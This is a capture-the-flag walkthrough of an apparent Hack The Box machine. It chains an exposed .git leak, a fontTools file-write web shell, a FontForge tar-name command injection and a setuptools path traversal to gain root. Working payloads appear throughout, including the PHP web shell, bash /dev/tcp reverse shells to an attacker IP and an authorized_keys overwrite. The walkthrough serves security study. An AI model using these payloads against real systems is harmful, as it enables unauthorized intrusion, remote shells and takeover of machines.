


## Preliminary Scan
1. All TCP scan
```sh
sudo nmap -Pn 10.129.202.93 -sS -p- --min-rate 20000 -oN nmap/allTcpPortScan.nmap 
```
Output:
```
Nmap scan report for 10.129.202.93
Host is up (0.23s latency).
Not shown: 60219 closed tcp ports (reset), 5314 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 25.33 seconds
```
2. All UDP scan
```sh
 sudo nmap -Pn 10.129.202.93 -sU -p- --min-rate 20000 -oN nmap/allUdpPortScan.nmap
```
Output:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-16 07:07 EDT
Warning: 10.129.202.93 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.202.93
Host is up (0.26s latency).
All 65535 scanned ports on 10.129.202.93 are in ignored states.
Not shown: 65491 open|filtered udp ports (no-response), 44 closed udp ports (port-unreach)

Nmap done: 1 IP address (1 host up) scanned in 39.65 seconds
```
3. Script and version scan.
```sh
sudo nmap -Pn 10.129.202.93 -sCV -p22,80 --min-rate 20000 -oN nmap/scriptVersionScan.nmap
```
Output:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
| ssh-hostkey: 
|   256 e0:b2:eb:88:e3:6a:dd:4c:db:c1:38:65:46:b5:3a:1e (ECDSA)
|_  256 ee:d2:bb:81:4d:a2:8f:df:1c:50:bc:e1:0e:0a:d1:22 (ED25519)
80/tcp open  http    nginx 1.22.1
|_http-server-header: nginx/1.22.1
|_http-title: Did not follow redirect to http://variatype.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.25 seconds
```
## Web Application
1. This company allows us to generate our own fonts.
	
2. Virtual host fuzzing shows this:
```
ffuf -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://variatype.htb/ -H "Host:FUZZ.variatype.htb" -ic -fs 169
```
Output:
```
portal                  [Status: 200, Size: 2494, Words: 445, Lines: 59, Duration: 404ms]
```
3. There is a CVE that enables arbitrary file write. https://github.com/fonttools/fonttools/security/advisories/GHSA-768j-98cg-p3fv
4. Let's generate the TTF files.
```python
#!/usr/bin/env python3
import os

from fontTools.fontBuilder import FontBuilder
from fontTools.pens.ttGlyphPen import TTGlyphPen

def create_source_font(filename, weight=400):
    fb = FontBuilder(unitsPerEm=1000, isTTF=True)
    fb.setupGlyphOrder([".notdef"])
    fb.setupCharacterMap({})
    
    pen = TTGlyphPen(None)
    pen.moveTo((0, 0))
    pen.lineTo((500, 0))
    pen.lineTo((500, 500))
    pen.lineTo((0, 500))
    pen.closePath()
    
    fb.setupGlyf({".notdef": pen.glyph()})
    fb.setupHorizontalMetrics({".notdef": (500, 0)})
    fb.setupHorizontalHeader(ascent=800, descent=-200)
    fb.setupOS2(usWeightClass=weight)
    fb.setupPost()
    fb.setupNameTable({"familyName": "Test", "styleName": f"Weight{weight}"})
    fb.save(filename)

if __name__ == '__main__':
    os.chdir(os.path.dirname(os.path.abspath(__file__)))
    create_source_font("source-light.ttf", weight=100)
    create_source_font("source-regular.ttf", weight=400)
```
5. Create our malicious `.designspace` file. I'm gonna guess that portal vhost is in `/var/www/html/portal`
```xml
<?xml version='1.0' encoding='UTF-8'?>
<designspace format="5.0">
	<axes>
        <!-- XML injection occurs in labelname elements with CDATA sections -->
	    <axis tag="wght" name="Weight" minimum="100" maximum="900" default="400">
	        <labelname xml:lang="en"><![CDATA[<?php echo `$_GET[0]`?>]]]]><![CDATA[>]]></labelname>
	        <labelname xml:lang="fr">MEOW2</labelname>
	    </axis>
	</axes>
	<axis tag="wght" name="Weight" minimum="100" maximum="900" default="400"/>
	<sources>
		<source filename="source-light.ttf" name="Light">
			<location>
				<dimension name="Weight" xvalue="100"/>
			</location>
		</source>
		<source filename="source-regular.ttf" name="Regular">
			<location>
				<dimension name="Weight" xvalue="400"/>
			</location>
		</source>
	</sources>
	<variable-fonts>
		<variable-font name="MyFont" filename="../../../../../var/www/html/portal/shell.php">
			<axis-subsets>
				<axis-subset name="Weight"/>
			</axis-subsets>
		</variable-font>
	</variable-fonts>
	<instances>
		<instance name="Display Thin" familyname="MyFont" stylename="Thin">
			<location><dimension name="Weight" xvalue="100"/></location>
			<labelname xml:lang="en">Display Thin</labelname>
		</instance>
	</instances>
</designspace>
```
- Nothing?
### portal.variatype.htb
1. Now let's examine `portal.variatype.htb`. It is running on PHP
2. Inside the [styles.css](http://portal.variatype.htb/styles.css), we see this
```css
/* /var/www/dev.variatype.htb/styles.css */
```
3. Let's perform file fuzzing.
```sh
ffuf -w /opt/SecLists/Discovery/Web-Content/common.txt:FUZZ -u http://portal.variatype.htb/FUZZ -ic -o portal_dir_fuzz_common.txt
```
Output:
```
.git/logs/              [Status: 403, Size: 153, Words: 3, Lines: 8, Duration: 304ms]
.git                    [Status: 301, Size: 169, Words: 5, Lines: 8, Duration: 305ms]
.git/HEAD               [Status: 200, Size: 23, Words: 2, Lines: 2, Duration: 306ms]
.git/index              [Status: 200, Size: 137, Words: 2, Lines: 2, Duration: 303ms]
.git/config             [Status: 200, Size: 143, Words: 14, Lines: 9, Duration: 290ms]
files                   [Status: 301, Size: 169, Words: 5, Lines: 8, Duration: 200ms]
index.php               [Status: 200, Size: 2494, Words: 445, Lines: 59, Duration: 223ms]

```
4. The `.git` file does not allow file listing. So, from here, we get the SHA commit
```sh
curl http://portal.variatype.htb/.git/ORIG_HEAD
```
Output:
```
6f021da6be7086f2595befaa025a83d1de99478b
```
To retrieve the zlib of the commit,
```
wget http://portal.variatype.htb/.git/objects/6f/021da6be7086f2595befaa025a83d1de99478b
```
It is first two characters as directory then the rest of characters as the filename
To decompress the file,
```
>>> import zlib

>>> with open('021da6be7086f2595befaa025a83d1de99478b', 'rb') as f:
...     decompressed_data = zlib.decompress(f.read())
...     
>>> decompressed_data
b'commit 243\x00tree 030e929d424a937e9bd079794a7e1aaf366bcfaf\nparent 753b5f5957f2020480a19bf29a0ebc80267a4a3d\nauthor Dev Team <dev@variatype.htb> 1764968388 -0500\ncommitter Dev Team <dev@variatype.htb> 1764968388 -0500\n\nsecurity: remove hardcoded credentials\n'
```
5. We can automate it using [`git-dumper`](http://github.com/arthaud/git-dumper)
```
# Install git-dumper
pip install git-dumper

# Run the dumper against a target
git-dumper http://portal.variatype.htb/.git/ ./recovered_repo
```
6. There is password in commit `753b5`
```php
<?php
session_start();
$USERS = [
    'gitbot' => 'G1tB0t_Acc3ss_2025!'
];
```
- Let's log in!
7. Wow, ok. So this is where the TTF ended up in.

8. Wooo, there is a local file disclosure vulnerability.
```http
GET /download.php?f=..././..././..././..././..././etc/hosts HTTP/1.1

Host: portal.variatype.htb
```
Output:
```
127.0.0.1	localhost
127.0.1.1	variatype

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
127.0.0.1 variatype.htb	portal.variatype.htb
```
9. Some interesting files
```http
GET /download.php?f=..././view.php HTTP/1.1
```
Output:
```php
<?php
require_once 'auth.php';
require_login();

$file = $_GET['f'] ?? '';
if (!$file || !preg_match('/^[a-zA-Z0-9._-]+$/', $file)) {
    die('Invalid file name.');
}

$filepath = '/var/www/portal.variatype.htb/public/files/' . $file;
if (!is_file($filepath)) {
    die('File not found.');
}

?>
```
I can verify that the path to the TTF is here
```http
GET /download.php?f=..././..././..././..././..././var/www/portal.variatype.htb/public/files/variabype_Y8rqECJQ85M.ttf HTTP/1.1
```
10. Let's try to write our TTF to `/var/www/portal.variatype.htb/public/files/`
```http
------WebKitFormBoundaryGKS5AMcNDyVQMJht

Content-Disposition: form-data; name="designspace"; filename="malicious.designspace"

Content-Type: application/octet-stream


<?xml version='1.0' encoding='UTF-8'?>
<designspace format="5.0">
	<axes>
        <!-- XML injection occurs in labelname elements with CDATA sections -->
	    <axis tag="wght" name="Weight" minimum="100" maximum="900" default="400">
	        <labelname xml:lang="en"><![CDATA[<?php echo `$_GET[0]`?>]]]]><![CDATA[>]]></labelname>
	        <labelname xml:lang="fr">MEOW2</labelname>
	    </axis>
	</axes>
	<axis tag="wght" name="Weight" minimum="100" maximum="900" default="400"/>
	<sources>
		<source filename="source-light.ttf" name="Light">
			<location>
				<dimension name="Weight" xvalue="100"/>
			</location>
		</source>
		<source filename="source-regular.ttf" name="Regular">
			<location>
				<dimension name="Weight" xvalue="400"/>
			</location>
		</source>
	</sources>
	<variable-fonts>
		<variable-font name="MyFont" filename="/var/www/portal.variatype.htb/public/files/shell.php">
			<axis-subsets>
				<axis-subset name="Weight"/>
			</axis-subsets>
		</variable-font>
	</variable-fonts>
	<instances>
		<instance name="Display Thin" familyname="MyFont" stylename="Thin">
			<location><dimension name="Weight" xvalue="100"/></location>
			<labelname xml:lang="en">Display Thin</labelname>
		</instance>
	</instances>
</designspace>


------WebKitFormBoundaryGKS5AMcNDyVQMJht

Content-Disposition: form-data; name="masters"; filename="source-light.ttf"

Content-Type: font/ttf

<SNIP>
```
11. Then, we can access the file as a PHP file
```http
GET /files/shell.php?0=id HTTP/1.1
```
Output:
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
12. To get a reverse shell,
```http
GET /files/shell.php?0=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.64/9999+0>%261' HTTP/1.1
```
Output:
```
nc -lvnp 9999      
listening on [any] 9999 ...
connect to [10.10.14.64] from (UNKNOWN) [10.129.255.16] 58264
bash: cannot set terminal process group (3514): Inappropriate ioctl for device
bash: no job control in this shell
www-data@variatype:~/portal.variatype.htb/public/files$ 
```
13. To upgrade TTY,
Use script to spawn a tty
```
script -qc /bin/bash /dev/null
```
Background the shell. `CTRL+Z`. On your machine,
```
stty raw -echo; fg
```
Then, press enter twice

## Shell as www-data
1. The `/etc/passwd`
```
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
steve:x:1000:1000:steve,,,:/home/steve:/bin/bash
```
2. Ports
```
ss -tlnp
State  Recv-Q Send-Q Local Address:Port Peer Address:PortProcess                                                 
LISTEN 0      128        127.0.0.1:5000      0.0.0.0:*                                                           
LISTEN 0      128          0.0.0.0:22        0.0.0.0:*                                                           
LISTEN 0      511          0.0.0.0:80        0.0.0.0:*    users:(("nginx",pid=3525,fd=9),("nginx",pid=3524,fd=9))
LISTEN 0      128             [::]:22           [::]:*                                                           
LISTEN 0      511             [::]:80           [::]:*    users:(("nginx",pid=3525,fd=10),("nginx",pid=3524,fd=10))
```
3. There is a directory in `/opt`
```
www-data@variatype:/opt$ ls -la
total 20
drwxr-xr-x  4 root      root      4096 Mar  9 08:29 .
drwxr-xr-x 18 root      root      4096 Mar  9 08:29 ..
drwxr-xr-x  3 root      root      4096 Mar  9 08:29 font-tools
-rwxr-xr--  1 steve     steve     2018 Feb 26 07:50 process_client_submissions.bak
drwxr-xr-x  4 variatype variatype 4096 Mar  9 08:29 variatype
```
4. Interesting files:
- process_client_submissions.bak
```sh
#!/bin/bash
#
# Variatype Font Processing Pipeline
# Author: Steve Rodriguez <steve@variatype.htb>
# Only accepts filenames with letters, digits, dots, hyphens, and underscores.
#

set -euo pipefail

UPLOAD_DIR="/var/www/portal.variatype.htb/public/files"
PROCESSED_DIR="/home/steve/processed_fonts"
QUARANTINE_DIR="/home/steve/quarantine"
LOG_FILE="/home/steve/logs/font_pipeline.log"

mkdir -p "$PROCESSED_DIR" "$QUARANTINE_DIR" "$(dirname "$LOG_FILE")"

log() {
    echo "[$(date --iso-8601=seconds)] $*" >> "$LOG_FILE"
}

cd "$UPLOAD_DIR" || { log "ERROR: Failed to enter upload directory"; exit 1; }

shopt -s nullglob

EXTENSIONS=(
    "*.ttf" "*.otf" "*.woff" "*.woff2"
    "*.zip" "*.tar" "*.tar.gz"
    "*.sfd"
)

SAFE_NAME_REGEX='^[a-zA-Z0-9._-]+$'

found_any=0
for ext in "${EXTENSIONS[@]}"; do
    for file in $ext; do
        found_any=1
        [[ -f "$file" ]] || continue
        [[ -s "$file" ]] || { log "SKIP (empty): $file"; continue; }

        # Enforce strict naming policy
        if [[ ! "$file" =~ $SAFE_NAME_REGEX ]]; then
            log "QUARANTINE: Filename contains invalid characters: $file"
            mv "$file" "$QUARANTINE_DIR/" 2>/dev/null || true
            continue
        fi

        log "Processing submission: $file"

        if timeout 30 /usr/local/src/fontforge/build/bin/fontforge -lang=py -c "
import fontforge
import sys
try:
    font = fontforge.open('$file')
    family = getattr(font, 'familyname', 'Unknown')
    style = getattr(font, 'fontname', 'Default')
    print(f'INFO: Loaded {family} ({style})', file=sys.stderr)
    font.close()
except Exception as e:
    print(f'ERROR: Failed to process $file: {e}', file=sys.stderr)
    sys.exit(1)
"; then
            log "SUCCESS: Validated $file"
        else
            log "WARNING: FontForge reported issues with $file"
        fi

        mv "$file" "$PROCESSED_DIR/" 2>/dev/null || log "WARNING: Could not move $file"
    done
done

if [[ $found_any -eq 0 ]]; then
    log "No eligible submissions found."
fi

```
5. The `/usr/local/src/fontforge/build/bin/fontforge` in use is vulnerable to [CVE-2024-25081](https://github.com/advisories/GHSA-rjx3-xwwm-jhj5 "CVE-2024-25081") and [CVE-2024-25082](https://github.com/advisories/GHSA-2j3h-j2q3-wxp3 "CVE-2024-25082")
```
/usr/local/src/fontforge/build/bin/fontforge -v
Copyright (c) 2000-2025. See AUTHORS for Contributors.
 License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
 with many parts BSD <http://fontforge.org/license.html>. Please read LICENSE.
 Version: 20230101
 Based on sources from 2025-12-07 11:44 UTC-D.
 Based on source from git with hash: a1dad3e81da03d5d5f3c4c1c1b9b5ca5ebcfcecf
fontforge 20230101
build date: 2025-12-07 11:44 UTC
```
- This blog is super useful: https://www.canva.dev/blog/engineering/fonts-are-still-a-helvetica-of-a-problem/
6. To create our malicious zipped font,
```python
#!/usr/bin/env python3
import tarfile
import os

exec_command = f"$(ping 10.10.14.64)"

with tarfile.open("poc.tar", "w", format=tarfile.USTAR_FORMAT) as t:
    t.addfile(tarfile.TarInfo(exec_command))
```
Execute the script and transfer the tar file to `/var/www/portal.variatype.htb/public/files`
```
sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
04:19:46.249064 IP variatype.htb > 10.10.14.64: ICMP echo request, id 47213, seq 1, length 64
04:19:46.249178 IP 10.10.14.64 > variatype.htb: ICMP echo reply, id 47213, seq 1, length 64
04:19:47.168119 IP variatype.htb > 10.10.14.64: ICMP echo request, id 47213, seq 2, length 64
04:19:47.168153 IP 10.10.14.64 > variatype.htb: ICMP echo reply, id 47213, seq 2, length 64
```
- Sure enough
This is the output of ps aux
```
steve      47213  0.0  0.0   7544  1120 ?        S    04:22   0:00 ping 10.10.14.64
```
7. To get a reverse shell,
```python
#!/usr/bin/env python3
import tarfile
import os

exec_command = f"$(bash -c 'bash -i >& /dev/tcp/10.10.14.64/7777 0>&1')"

with tarfile.open("poc.tar", "w", format=tarfile.USTAR_FORMAT) as t:
    t.addfile(tarfile.TarInfo(exec_command))
```
Execute the script and transfer to `/var/www/portal.variatype.htb/public/files`. After some time
```
nc -lvnp 7777            
listening on [any] 7777 ...
connect to [10.10.14.64] from (UNKNOWN) [10.129.255.16] 42640
bash: cannot set terminal process group (47291): Inappropriate ioctl for device
bash: no job control in this shell
steve@variatype:/tmp/ffarchive-47292-1$ 
```
## Shell as Steve
1. Crontab 
```
steve@variatype:~$ crontab -l
# Edit this file to introduce tasks to be run by cron.
# 
# Each task to run has to be defined through a single line
# indicating with different fields when the task will be run
# and what command to run for the task
# 
# To define the time you can provide concrete values for
# minute (m), hour (h), day of month (dom), month (mon),
# and day of week (dow) or use '*' in these fields (for 'any').
# 
# Notice that tasks will be started based on the cron's system
# daemon's notion of time and timezones.
# 
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
# 
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
# 
# For more information see the manual pages of crontab(5) and cron(8)
# 
# m h  dom mon dow   command
*/2 * * * * /home/steve/bin/process_client_submissions.sh >/dev/null 2>&1
```
2. Sudo privileges
```
steve@variatype:~$ sudo -l
Matching Defaults entries for steve on variatype:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User steve may run the following commands on variatype:
    (root) NOPASSWD: /usr/bin/python3 /opt/font-tools/install_validator.py *
```
3. We can maintain persistence by dropping our SSH public key into `~/.ssh/authorized_keys`
4. The python file contents
```python
#!/usr/bin/env python3
"""
Font Validator Plugin Installer
--------------------------------
Allows typography operators to install validation plugins
developed by external designers. These plugins must be simple
Python modules containing a validate_font() function.

Example usage:
  sudo /opt/font-tools/install_validator.py https://designer.example.com/plugins/woff2-check.py
"""

import os
import sys
import re
import logging
from urllib.parse import urlparse
from setuptools.package_index import PackageIndex

# Configuration
PLUGIN_DIR = "/opt/font-tools/validators"
LOG_FILE = "/var/log/font-validator-install.log"

# Set up logging
os.makedirs(os.path.dirname(LOG_FILE), exist_ok=True)
logging.basicConfig(
    level=logging.INFO,
    format='%(asctime)s [%(levelname)s] %(message)s',
    handlers=[
        logging.FileHandler(LOG_FILE),
        logging.StreamHandler(sys.stdout)
    ]
)

def is_valid_url(url):
    try:
        result = urlparse(url)
        return all([result.scheme in ('http', 'https'), result.netloc])
    except Exception:
        return False
def install_validator_plugin(plugin_url):
    if not os.path.exists(PLUGIN_DIR):
        os.makedirs(PLUGIN_DIR, mode=0o755)

    logging.info(f"Attempting to install plugin from: {plugin_url}")

    index = PackageIndex()
    try:
        downloaded_path = index.download(plugin_url, PLUGIN_DIR)
        logging.info(f"Plugin installed at: {downloaded_path}")
        print("[+] Plugin installed successfully.")
    except Exception as e:
        logging.error(f"Failed to install plugin: {e}")
        print(f"[-] Error: {e}")
        sys.exit(1)

def main():
    if len(sys.argv) != 2:
        print("Usage: sudo /opt/font-tools/install_validator.py <PLUGIN_URL>")
        print("Example: sudo /opt/font-tools/install_validator.py https://internal.example.com/plugins/glyph-check.py")
        sys.exit(1)

    plugin_url = sys.argv[1]

    if not is_valid_url(plugin_url):
        print("[-] Invalid URL. Must start with http:// or https://")
        sys.exit(1)

    if plugin_url.count('/') > 10:
        print("[-] Suspiciously long URL. Aborting.")
        sys.exit(1)

    install_validator_plugin(plugin_url)

if __name__ == "__main__":
    if os.geteuid() != 0:
        print("[-] This script must be run as root (use sudo).")
        sys.exit(1)
    main()

```
5. I thought that it is vulnerable to https://huntr.com/bounties/d6362117-ad57-4e83-951f-b8141c6e7ca5 but when I check the version
```
pip show setuptools
Name: setuptools
Version: 78.1.0
Summary: Easily download, build, install, upgrade, and uninstall Python packages
Home-page: 
Author: 
Author-email: Python Packaging Authority <distutils-sig@python.org>
License: 
Location: /usr/local/lib/python3.11/dist-packages
Requires: 
Required-by: 
```
- It should be vulnerable to [CVE-2025-47273](https://github.com/advisories/GHSA-5rjg-fvgr-3xxf) instead
6. Seems that we need to use POC4 of this [bugbounty](https://huntr.com/bounties/d6362117-ad57-4e83-951f-b8141c6e7ca5) report because there is a limit to the length of URL
```sh
mkdir package-index
cd package-index
mkdir -p home/steve/.ssh/
echo 'test123' >  home/steve/.ssh/authorized_keys
python3 -m http.server
```
Then, to download the plugin,
```
sudo python3 /opt/font-tools/install_validator.py http://10.10.14.64:8000/%2fhome%2fsteve%2f.ssh%2fauthorized_keys
```
- Wasted too much time on this
Output:
```
2026-03-19 08:39:31,810 [INFO] Attempting to install plugin from: http://10.10.14.64:8000/%2fhome%2fsteve%2f.ssh%2fauthorized_keys
2026-03-19 08:39:31,816 [INFO] Downloading http://10.10.14.64:8000/%2fhome%2fsteve%2f.ssh%2fauthorized_keys
2026-03-19 08:39:32,380 [INFO] Plugin installed at: /home/steve/.ssh/authorized_keys
[+] Plugin installed successfully.
cat /home/steve/.ssh/authorized_keys
test123
```
7. Ok, let's overwrite the files in `/root/.ssh/authorized_keys`
Attacker machine
```
mkdir -p root/.ssh/
echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQCpU5CGsj1Xp5S3nMocvYUxQoC07Se1ofU5cIBK/NpkiJpAFSVpCRvCtJY5mVCG4WTXdWx6Zzak+bzUMDXrT8lhQ4gpffkXc9K8UmdiVWYcCwTm24IFxkuVa0w+gjKvXTn6/1+mRER+DIy5W5pjBoqmuUDMxP+ObsSDTGdcqF2CqAhRAK35H4Aecn6hH9UJr9adArpSnmIk6MXQJULHF7+tekiNKfSkMIoBAIeI1ZgsIDS/J9PjC5gu00vVPdTfi5bE0POC3Qf87bU2wwP4X+GyvrH2T8FC0J/jIGZX5pDRljR6QplqWrLZEG9B7yFMAhzS8g+HmXgHtJO08zMOwkBO4ySe/ddIK3nhWE505S/Py+c1vi6/bQmcyxkW3V1+kwtW/LF8E3PV0/+odyaWOdq0ed62LYbP0HCwtjr54w6wZas//NoIi2Hp3byDmQSDSUk69APcESGKChd73ag3SnjqRUwiadAH6R+yPE9uXqBhXAp9P3CqT8ctOn5WuKembLRDkUlEvx7uNqPsjHriSW/Vdcnu/iuyvXHMwYusG0JHBEMmj3LRs4dr1Ttmd+Roe79Qz096tBMdSeyeMJnGxvhFVHqTa0AMBOBYFXooKxXj6q/E/eKcG8tn/o3Ee6F/r1DNasTgleiIZhSwUluNgO2MbtqH4jrDFtknw9g2dLVvmw== kali@kali' >  root/.ssh/authorized_keys
python3 -m http.server
```
On the machine,
```
sudo python3 /opt/font-tools/install_validator.py http://10.10.14.64:8000/%2froot%2f.ssh%2fauthorized_keys
```
Then to get root,
```
ssh root@variatype.htb 
```
Output:
```
id
uid=0(root) gid=0(root) groups=0(root)
```
- Yay!